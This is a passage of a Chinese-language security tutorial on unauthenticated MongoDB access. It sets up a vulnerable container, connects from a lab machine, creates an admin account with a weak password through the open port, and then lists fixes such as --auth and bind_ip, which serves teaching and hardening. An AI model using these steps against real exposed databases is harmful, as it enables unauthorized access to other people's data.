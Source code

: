 造成未授权访问的根本原因就在于启动 Mongodb 的时候未设置 --auth，使用默认空口令这将导致恶意攻击者无需进行账号认证就可以登陆到数据服务器。 默认端口：27017

## 环境搭建

```bash
root@kali:~# docker pull mongo
root@kali:~# docker run -d -p 27017:27017 --name mongodb mongo 
```

## 漏洞利用

使用 mongo连接，也可以使用图形化工具navicat、[NoSQLBooster](https://www.nosqlbooster.com/downloads)连接

```bash
root@NC:/mnt/c/Users# apt install mongodb-clients
root@NC:/mnt/c/Users# mongo --host 192.168.211.129 --port 27017
```

创建系统用户管理员创建一个用户名为myUserAdmin，密码为123456的系统用户管理员账号，用ssh直接登录

```
> db.version()
5.0.5
> use admin
switched to db admin 
> db.createUser(
  {
    user: "myUserAdmin",
    pwd: "123456",
    roles: [ { role: "userAdminAnyDatabase", db: "admin" } ]
  }
)
Successfully added user: {
    "user" : "myUserAdmin",
    "roles" : [
        {
            "role" : "userAdminAnyDatabase",
            "db" : "admin"
        }
    ]
}
```

## 漏洞修复

1. 为MongoDB添加认证：MongoDB启动时添加--auth参数、为MongoDB添加用户
2. MongoDB  自身带有一个HTTP服务和并支持REST接口。在2.6以后这些接口默认是关闭的。mongoDB默认会使用默认端口监听web服务，一般不需要通过web方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择 –nohttpinterface 参数 nohttpinterface=false 
3. 启动时加入参数--bind_ip 127.0.0.1 或在/etc/mongodb.conf文件中添加以下内容：bind_ip = 127.0.0.1

# Hadoop未授权访问
